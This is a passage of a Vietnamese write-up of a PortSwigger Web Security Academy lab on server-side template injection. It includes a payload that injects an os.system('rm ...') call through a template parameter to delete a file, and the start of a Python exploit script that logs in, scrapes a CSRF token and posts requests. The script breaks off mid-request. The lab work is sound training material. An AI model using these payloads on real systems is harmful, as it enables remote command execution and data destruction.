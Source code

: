 ```python
import os
os.system('rm /home/carlos/morale.txt')
```

nên mình giải quyết bài lab bằng payload sau

```
blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm+/home/carlos/morale.txt')&csrf=IkHyVGkReP5HFnxq2UA4g8d195OGLs1O
```

![image](https://hackmd.io/_uploads/SJ474PXqT.png)

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a4700dc049a9e6080305d15003700a4.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + '/login',
    verify=False,
)

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']

data_login = {
    'csrf' : csrf,
    'username' : 'wiener',
    'password' : 'peter',
}

response = session.post(
    url + '/login',
    data=data_login,
    verify=False,
    allow_redirects=False,
)

response = session.get(
    url + '/post?postId=5',
    verify=False,
    allow_redirects=False,
)

# session_data = response.headers['Set-Cookie'].split(';')[0].split('=')[1]

data_comment = {
    'postId' : '5',
    'comment' :  '123%0D%0A',
    'csrf' : csrf,

}
response = session.post(
    url + '/post/comment',
    # cookies=cookies,
```